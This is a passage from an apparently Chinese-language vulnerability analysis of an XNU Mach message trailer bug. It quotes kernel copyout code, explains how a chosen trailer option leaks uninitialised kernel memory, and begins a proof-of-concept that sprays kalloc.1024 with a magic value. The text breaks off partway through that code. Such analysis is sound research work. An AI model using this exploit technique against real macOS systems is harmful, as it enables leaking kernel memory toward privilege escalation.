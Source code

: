 ```c
		mach_port_name_t        voucher_port    = kmsg->ikm_header->msgh_voucher_port;
		mach_msg_id_t           id                      = kmsg->ikm_header->msgh_id;

		legacy_header->msgh_id                  = id;
		legacy_header->msgh_local_port = local_port;
		legacy_header->msgh_remote_port = remote_port;
		legacy_header->msgh_voucher_port = voucher_port;
		legacy_header->msgh_size                = msg_size - LEGACY_HEADER_SIZE_DELTA;
		legacy_header->msgh_bits                = bits;

		size -= LEGACY_HEADER_SIZE_DELTA;
		kmsg->ikm_header = (mach_msg_header_t *)legacy_header;
	}
#endif

	/* Re-Compute target address if using stack-style delivery */
	if (option & MACH_RCV_STACK) {
		rcv_addr += rcv_size - size;
	}

    // 拷贝消息
	if (copyoutmsg((const char *) kmsg->ikm_header, rcv_addr, size)) {
		mr = MACH_RCV_INVALID_DATA;
		size = 0;
	} else {
		mr = MACH_MSG_SUCCESS;
	}

    // 释放掉内核态的消息结构体
	ipc_kmsg_free(kmsg);

	if (sizep) {
		*sizep = size;
	}
	return mr;
}
```

总结一下，我们现在可以通过设置函数`mach_msg()`的第二个参数为`MACH_RCV_MSG | MACH_RCV_TRAILER_ELEMENTS(5)`来获取到最大的`trailer->msgh_trailer_size`，而且可以跳过`trailer->msgh_ad`的初始化

现在来看Poc代码
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#include <mach/mach.h>

#define MAGIC 0x416e7953 // 'SynA'

int main(int argc, char *argv[]) {
	mach_port_t port;
	int fd[2];

	mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port);
	mach_port_insert_right(mach_task_self(), port, port, MACH_MSG_TYPE_MAKE_SEND);

	printf("[+] Allocating controlled (magic value %x) kalloc.1024 buffer\n", MAGIC);
	uint32_t *pipe_buff = malloc(1020);
	for (int i = 0; i < 1020 / sizeof(uint32_t); i++)
		pipe_buff[i] = MAGIC;
	pipe(fd);
	write(fd[1], pipe_buff, 1020);
```
